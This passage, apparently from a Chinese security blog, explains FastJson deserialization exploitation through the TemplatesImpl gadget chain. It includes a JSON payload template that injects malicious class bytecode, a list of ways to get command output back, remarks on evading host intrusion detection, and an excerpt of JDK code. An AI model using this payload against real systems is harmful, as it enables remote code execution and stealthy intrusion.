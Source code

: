 运行poc.java即可生成payload，将生成的payload中_bytecodes取出，拼接到下面的模板中

```
{
    "name":{
        "@type":"java.lang.Class",
        "val":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"
    },
    "x":{
       "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
"_bytecodes":["你的_bytecodes"],
'_name':'a.b',
'_tfactory':{ },
"_outputProperties":{ }
    }

}
```

接下来就是考虑回显的问题了，根据别人总结的回显方式，大概有如下几种：

1. defineClass
2. RMI绑定实例
3. URLClassLoader抛出异常
4. 中间件
5. 写文件css、js
6. dnslog



可以考虑的是1/4，第2种一般还是Weblogic中用的多，毕竟存在端口多个协议复用，实现T3可以回显。

第5种写文件，恐怕还要考虑删文件。毕竟目前Hids都可以监控文件变化和文件内容，Hook **execve**发现web组件执行了XXX命令。接着发现新建文件的日志 ，内容还是命令执行的，会触发告警的。虽然误报很多，但是不能确保....没人会进一步分析。毕竟本人被集团安全部警告过多次，甚至都在黑名单了，已经.....害怕了。

第3种和第6种就是要出网了，先放在一边。



**defineClass**

FastJson TemplatesImpl利用链:

```
TemplatesImpl.getOutputProperties()
  > TemplatesImpl.newTransformer()
    > TemplatesImpl.getTransletInstance()
      > TemplatesImpl.defineTransletClasses()
```

利用了 ClassLoader 动态加载恶意代码，在Payload中直接传入字节码。TransletClassLoader.defineClass() 将 Bytecode 字节码转为Class对象。

```
private void defineTransletClasses()
throws TransformerConfigurationException {

    ...
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    ...
}
```
